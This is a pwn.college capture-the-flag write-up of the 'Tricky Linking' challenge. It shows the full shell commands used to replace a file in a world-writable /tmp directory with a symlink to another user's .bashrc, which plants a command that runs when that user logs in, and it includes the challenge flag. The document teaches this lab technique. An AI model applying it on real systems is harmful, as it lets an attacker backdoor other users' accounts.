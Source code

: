 # 4. Tricky Linking

This challenge prompted me to use a symbolic link to trick a privileged user into modifying their own `.bashrc` file.

## My Solve

**Flag:** `pwn.college{YvxaGA68iJIY61azf4705aTqkgR.0VM0EzNxwCM2EDNzEzW}`

The victim user `zardus` would append a command to `/tmp/collab/evil-commands.txt`. Since the `/tmp/collab` directory was world-writable, I deleted the original file and replaced it with a symbolic link to `/home/zardus/.bashrc`. I then ran the victim simulation, which caused the `cat /flag` command to be written into zardus's `.bashrc`. I ran the victim simulation a second time, and when zardus logged in, the backdoored `.bashrc` executed and printed the flag.

```
hacker@shenanigans~tricky-linking:~$ rm /tmp/collab/evil-commands.txt
rm: remove write-protected regular file '/tmp/collab/evil-commands.txt'? y
hacker@shenanigans~tricky-linking:~$ ln -s /home/zardus/.bashrc /tmp/collab/evil-commands.txt
hacker@shenanigans~tricky-linking:~$ /challenge/victim
Username: zardus
Password: **********
zardus@shenanigans~tricky-linking:~$ echo "cat /flag" >> /tmp/collab/evil-commands.txt
zardus@shenanigans~tricky-linking:~$ exit
logout
hacker@shenanigans~tricky-linking:~$ /challenge/victim
Username: zardus
Password: **********
pwn.college{YvxaGA68iJIY61azf4705aTqkgR.0VM0EzNxwCM2EDNzEzW}
zardus@shenanigans~tricky-linking:~$ echo "cat /flag" >> /tmp/collab/evil-commands.txt
zardus@shenanigans~tricky-linking:~$ exit
logout
```

## What I Learned

I learnt that if a directory is world-writable, you can replace files inside it with symbolic links. This can trick privileged processes into writing to sensitive files, like a user's `.bashrc`.

## References

The problem statement provided was the reference used.

```
...having write access to /tmp/collab, the hacker user can replace that evil-commands.txt file.
Also remember from Comprehending Commands that files can link to other files.
What happens if hacker replaces evil-commands.txt with a symbolic link to some sensitive file that zardus can write to?
...
You'll need to run /challenge/victim twice: once to get cat /flag written to where you want, and once to trigger it!
```
